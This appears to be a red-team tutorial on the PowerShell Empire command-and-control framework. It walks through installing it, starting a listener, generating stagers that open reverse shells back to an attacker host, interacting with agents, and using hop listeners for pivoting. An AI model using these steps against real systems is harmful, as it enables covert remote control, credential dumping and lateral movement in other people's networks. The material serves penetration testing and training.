 # Command and Control with Empire

With a foothold in a target network, we can start looking to bring what is known as a C2 (Command and Control) Framework into play. C2 Frameworks are used to consolidate an attacker's position within a network and simplify post-exploitation steps (privesc, AV evasion, pivoting, looting, covert network tactics, etc), as well as providing red teams with extensive collaboration features.

Powershell Empire is, as the name suggests, a framework built primarily to attack Windows targets (although especially with the advent of dotnet core, more and more of the functionality may become usable in other systems). It provides a wide range of modules to take initial access to a network of devices, and turn it into something much bigger. In this section we will be looking at the principles

---

## 1.0 Empire information

- **Listeners** are fairly self-explanatory. They listen for a connection and facilitate further exploitation
- **Stagers** are essentially payloads generated by Empire to create a robust reverse shell in conjunction with a listener. They are the delivery mechanism for agents
- **Agents** are the equivalent of a Metasploit "Session". They are connections to compromised targets, and allow an attacker to further interact with the system
- **Modules** are used to in conjunction with agents to perform further exploitation. For example, they can work through an existing agent to dump the password hashes from the server

---

## 2.0 Downloading Empire

```bash
sudo apt install powershell-empire starkiller
```

## 3.0 Commands

Starting empire server:

```bash
sudo powershell-empire server
```

Exit menu

```bash
back
```

Go back to main

```bash
main
```

Starting empire client:

```bash
sudo powershell-empire client
```

---

## 4.0 Empire Listeners

Listeners in Empire are used to receive connections from stagers (which we'll look at in the next task). The default listener is the HTTP listener. This is what we will be using here, although there are many others available. It's worth noting that a single listener can be used more than once -- they do not die after their first usage.

Select a listener trough the client:

```bash
uselistener LISTENER
```

Example:

```bash
uselistener http
```

Set options for the listener

```bash
set OPTION VALUE
```

- Example:
    
    ```bash
    set Host 10.50.10.5
    ```
    

Run the listener:

```bash
execute
```

<aside>
📌 Bear in mind that option names are case sensitive in Empire.

</aside>

---

## 5.0 Stagers

Stagers are Empire's payloads. They are used to connect back to waiting listeners, creating an agent when executed.

Use a stager: (When in doubt, multi/launcher is often a good bet.)

```bash
usestager {stager}
```

Set options:

```bash
set OPTION VALUE
```

- Example:
    
    ```bash
    set LISTENER <listener>
    ```
    

---

## 6.0 Agents

Now that we've started a listener and created a stager, it's time to put them together to get an agent!

List agents:

```bash
agents
```

Interact with agent:

```bash
interact AGENT_NAME
```

---

## 7.0 Hop Listeners

Hop Listeners create what looks like a regular listener in our list of listeners (like the http listener we used before); however, rather than opening a port to receive a connection, hop listeners create files to be copied across to the compromised "jump" server and served from there. These files contain instructions to connect back to a normal (usually HTTP) listener on our attacking machine.

Use http hop listener:

```bash
uselistener http_hop
```